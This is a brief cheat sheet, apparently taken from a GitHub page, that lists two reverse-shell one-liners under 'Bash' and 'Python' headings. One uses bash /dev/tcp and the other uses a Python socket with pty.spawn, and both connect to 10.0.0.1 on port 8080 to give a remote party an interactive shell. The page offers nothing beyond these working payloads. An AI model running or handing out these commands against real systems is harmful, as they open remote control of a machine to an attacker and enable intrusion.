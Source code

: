# Bash

` bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 `

# Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' `
